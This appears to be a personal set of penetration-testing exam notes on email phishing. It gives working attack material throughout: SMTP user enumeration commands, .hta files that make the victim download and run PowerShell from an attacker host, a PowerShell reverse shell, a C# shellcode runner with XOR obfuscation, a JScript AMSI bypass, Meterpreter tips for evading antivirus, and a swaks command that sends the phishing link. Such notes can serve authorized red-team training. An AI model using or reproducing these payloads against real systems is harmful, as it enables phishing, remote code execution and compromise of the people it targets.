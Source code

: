 ## Phishing through Email

First of all, you need to find a valid email account to send the phish to. This could either be through enumeration of the web portals or if SMTP is open, using the following enum command
```bash
# Can check via manual telnet to see which method is allowed
$ smtp-user-enum -M VRFY -U users.txt -t 10.0.0.1
$ smtp-user-enum -M EXPN -u admin1 -t 10.0.0.1
$ smtp-user-enum -M RCPT -U users.txt -T mail-server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 10.0.0.1
```

### Payload - Via .hta

- Only works if victim is using IE and hence mshta.exe will execute the .hta payload
- Lets prepare a .hta payload which we can serve as a link in our email's body to entice the victim to click and execute
- Payload from simple to complex
- We call the below evil.hta

**Simple Powershell Download Cradle and RevShell via TCPSocket**
- Can evade AV because of the use of "non-standard" var names
- Note if you dont see the run.txt being downloaded, it may be because the method of New-Object System.Net.WebClient is restricted by CLM. You can use IWR instead
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe (New-Object System.Net.WebClient).DownloadString('http://<ip>/run.txt')| IEX");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
![run.txt here](https://github.com/OoStellarnightoO/OSEP_Notes/blob/main/99%20-%20Misc%20Stuff/PS_Nishang_OneLiner_RevShell.ps1)

For run.txt, you can also Base64 Encode it but if you are using cyberchef, remember to Encode Text (UTF-16 LE) recipe before Base64 encode recipe!
![alt text](image.png)

**Simple Powershell Download EXE and Execute**
- No AMSI and Applocker bypass so will likely download the EXE but fail to execute

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/msf.exe -outfile C:\\users\\public\\msf.exe; C:\\users\\public\\msf.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**PSBypassCLM Rev Shell**
- Requires InstalUtil. Bypasses CLM for that session

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/psbypassclm.exe -outfile C:\\users\\public\\bypass.exe; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<kali ip> /rport=443 /U c:\\Users\\Public\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**.hta > CLMBypass > NishangRevShell**
- Basically craft a hta that directs the victim to download the CLMBypass exe from your apache2 server
- Within this CLMBypass is an AMSI bypass that is downloaded from your apache2 server and then executing a somewhat obfuscated NishangRevShell (change the var names)
- The .hta code below
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell iwr -uri http://192.168.45.193/irs.exe -Outfile C:\\Windows\\tasks\\irs.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /U C:\\Windows\\tasks\\irs.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
The CLMBypass excerpt below
```csharp
String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.193/amsi.txt') | IEX;";
            String cmd2 = "$cli = New-Object System.Net.Sockets.TCPClient('192.168.45.193',443);$str = $cli.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $str.Read($bytes, 0, $bytes.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbyte = ([text.encoding]::ASCII).GetBytes($sb2);$str.Write($sbyte,0,$sbyte.Length);$str.Flush()};$cli.Close()";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
```


**C# Shellcode Runner + DOTNET2JS**
- hmm stealthy? No Powershell at least
- Spin up the dotnet2js sln file; Remember to comment out the dotnet v2 line in Program.cs of the main project
- In the ExampleAssembly's TestClass.cs, put the following code. Compiled in x64

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
  uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        byte[] buf = <shellcode here x64>;

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}

```
**XOR-ed C# Shellcode Runner + DOTNET2JS + AMSI BYPASS IN JSCRIPT**

- use our XOR_Helper to generate XOR-ed C# Shellcode
- Put the XOR-ed shellcode into the shellcode script in ExampleAssembly.dll
- Add a decryption function in the ExampleAssembly.dll after the buf variable like this
```csharp
        byte[] buf = <shellcode here x64>;

//assuming your XOR key is 0xfa
        for (int i = 0; i < buf.Length; i++)
        {
            buf[i] = (byte)((uint)buf[i] ^ 0xfa);
        }

        int size = buf.Length;
```
- If you are having "Error: Loading Assembly Information" when running DOTNET2JS, switch off your defender.
- when your evil.js is created, open it and slam the following code at the top:
- Note you may need to obfuscare the AmsiEnable code block through some simple string manipulation like below
```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\A" +"msi"+"Enable";

try{
	var AEnable = sh.RegRead(key);
	if(AEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD"); 
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1); 
	sh.RegWrite(key, 1, "REG_DWORD"); 
	WScript.Quit(1);
}

<rest of your dotnet2jscript stuff>
```
- This should bypass a noobish Defender and AMSI
- There is a chance that Defender will still catch your meterpreter shell. As such, it might be a good idea to do the following when running your multi/handler. Note you may need to run it multiple times for it to work
```bash
# this will run the migrate module and by default it will attempt to migrate to notepad.exe once a shell is established
exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
# using AutoRunScript creates a more stable shell but may fail to evade AV. Another option is to use the PrependMigrate. Can also consider werfault.exe for the proc
exploit(multi/handler) > set PrependMigrate true; set PrependMigrateProc explorer.exe  

```
### Sending the email!

Make sure your apache server is running to serve the .hta

```bash
sudo swaks -t will@offsec.com --from hacker@hacker.com --server <Target IP with SMTP> --body 'Click here http://192.168.45.195/evil.hta' --header Anything
```